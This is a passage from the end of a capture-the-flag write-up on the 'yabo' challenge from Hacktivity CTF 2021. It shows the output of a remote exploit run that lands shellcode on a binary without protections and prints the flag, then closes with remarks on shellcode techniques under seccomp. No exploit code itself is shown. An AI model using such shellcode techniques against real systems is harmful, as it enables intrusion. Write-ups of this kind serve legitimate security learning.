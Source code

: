 Output:

```  
# ./exploit.py REMOTE=1  
[*] '/pwd/datajerk/hacktivityctf2021/yabo/yabo'  
   Arch:     i386-32-little  
   RELRO:    No RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      No PIE (0x8048000)  
   RWX:      Has RWX segments  
[+] Opening connection to challenge.ctf.games on port 32332: Done  
[*] len(shellcode): 46  
flag{2f20f16416a066ca5d4247a438403f21}  
```

> Note this is the shortest shellcode of the three.  This challenge could have
> been harder by limiting the length of the shellcode.

## Epilogue

This is a great challenge for testing/learning various shellcode tricks,
ideas, codes, etc..  With these type of challenges lately I have just used
`open` and `sendfile` (mostly because of seccomp).  

Original writeup (https://github.com/datajerk/ctf-write-
ups/tree/master/hacktivityctf2021/yabo).